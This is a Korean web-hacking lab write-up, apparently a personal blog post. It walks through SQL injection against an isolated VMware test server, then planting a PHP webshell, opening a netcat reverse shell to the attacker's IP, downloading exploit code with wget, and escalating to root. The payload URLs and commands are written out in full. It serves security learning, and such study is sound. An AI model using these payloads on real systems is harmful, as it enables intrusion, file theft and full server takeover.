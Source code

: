```yaml
---
title: "SQL 인젝션 공격 실습(SQL Injection Attack)"
categories:
  - Web
tags:
  - Web hacking
  - SQL Injection
  - netcat
  - webshell
comments: true
---
```


SQL Injection 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 실습 환경설정
> 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)
> 3. MYSQL 권한으로, webshell 생성하기
> 4. nc 를 통한 reverse connection
> 5. exploit code 업로드 및 실행을 통한 권한상승


# 1. 실습 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-web_sql/1.1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1
- 공격대상 서버 URL : 10.10.10.10/test/
- 서비스 계정(id : test, pw : test)

<em>공격대상 서버 URL</em>
<center><p><img src="/assets/2019-01-28-post-web_sql/1.2.png"></p></center>

<br>

<em>서비스 계정</em>
<center><p><img src="/assets/2019-01-28-post-web_sql/1.3.png"></p></center>

<br>

# 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)

로그인 이후, FREE BOARD, **USER BOARD(취약점 존재)**, Q&A BOARD, SERVICE BOARD 등 게시판에서 취약점이 있는지 여부를 확인한다.

<center><p><img src="/assets/2019-01-28-post-web_sql/2.png"></p></center>

> 2.1. Blind SQL Injection

```
10.10.10.10/test/board.php?no=1 and 1=1 (TRUE)
10.10.10.10/test/board.php?no=1 and 1=0 (FALSE)
```
위 둘의 URL 실행결과가 다른 것을 통해 SQL Injection 공격 취약점이 존재하는 것을 파악할 수 있다.
```
[10.10.10.10/test/board.php?no=1 and 1=1 결과화면]
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.1.png"></p></center>

```
[10.10.10.10/test/board.php?no=1 and 1=0 결과화면]
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.2.png"></p></center>

> 2.2. Union SQL Injection

2.2.1. 컬럼개수 파악하기

```
http://10.10.10.10/test/board.php?no=0 order by 1 --
http://10.10.10.10/test/board.php?no=0 order by 2 --
~
http://10.10.10.10/test/board.php?no=0 order by 8 -- 까지는 에러가 발생하지 않는다..
http://10.10.10.10/test/board.php?no=0 order by 9 -- 부터 에러가 발생한다.
```
**그러므로, 컬럼은 총 8개이다.**

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.1.png"></p></center>

2.2.2. 각각의 컬럼 위치 확인하기

```
http://10.10.10.10/test/board.php?no=0 union select 1,2,3,4,5,6,7,8 --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.2.png"></p></center>

2.2.3. Title 부분에 계정정보 출력하기

```
http://10.10.10.10/test/board.php?no=0 union select 1, load_file('/etc/passwd'),3,4,5,6,7,8 --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.3.png"></p></center>


# 3. MYSQL 권한으로, webshell 생성하기

> 3.1. MYSQL 권한으로 Webshell 생성

```
http://10.10.10.10/test/board.php?no=0 union select 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7,8 into outfile "/usr/local/apache/htdocs/test/shell.php" --
```

<center><p><img src="/assets/2019-01-28-post-web_sql/3.1.png"></p></center>

> 3.2. Webshell 동작 확인

```
http://10.10.10.10/test/shell.php?cmd=ls
```
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.1.png"></p></center>

```
http://10.10.10.10/test/shell.php?cmd=ls  (nobody 권한인 것을 확인할 수 있다.)
```

<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.2.png"></p></center>


# 4. nc 를 통한 reverse connection

> 4.1. 공격자 PC 에서 nc 실행 후, 응답대기

cmd 창 2개 생성
- `cmd_1` : nc -l -p 33333<br>
nc 프로그램이 33333 번 포트로 응답대기(33333번 포트는 임의로 설정)
- `cmd_2` : netstat -na<br>
33333 포트가 응답대기인지 확인(프로그램이 제대로 실행되었는지 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.1.png"></p></center>
<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.2.png"></p></center>


> 4.2. Web 에서 nc 실행하여, 공격 대상 서버 -> 공격자 PC 로 연결 (reverse connection)

```
10.10.10.10/test/shell.php?cmd=nc -e /bin/sh 10.10.10.1 33333
(10.10.10.1 은 공격자 PC ip 주소)
```

다음과 같이 탭에서 계속 돌고 있는 상황이면 정상적으로 실행이 된 것이다.

<center><p><img src="/assets/2019-01-28-post-web_sql/4.2.png"></p></center>

> 4.3. 연결확인

`cmd_1` : id (계정정보 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.3.png"></p></center>


# 5. exploit code 업로드 및 실행을 통한 권한상승

> 5.1. wget 을 통한 익스플로잇 코드 업로드

공격자 소유의 서버(10.10.10.20)에 있는 exploit code 를, 공격대상이 되는 서버에서 다운로드 하도록 한다. 

```
10.10.10.10/test/shell.php?cmd=wget http://10.10.10.20/exp.c
```

<center><p><img src="/assets/2019-01-28-post-web_sql/5.1.png"></p></center>


> 5.2. Webshell 에서 exp.c 다운로드 확인

```
10.10.10.10/test/shell.php?cmd=ls -al
```

<center><p><img src="/assets/2019-01-28-post-web_sql/5.2.png"></p></center>

> 5.3. NC 를 통해 (cmd_1)에서 확인

<center><p><img src="/assets/2019-01-28-post-web_sql/5.3.png"></p></center>

> 5.4. exploit code 컴파일 후 실행을 통한 권한상승

5.4.1. `gcc -o exp exp.c`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.1.png"></p></center>

5.4.2. `ls -al`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.2.png"></p></center>

5.4.3. `./exp  ,  id`

<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.3.png"></p></center>

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
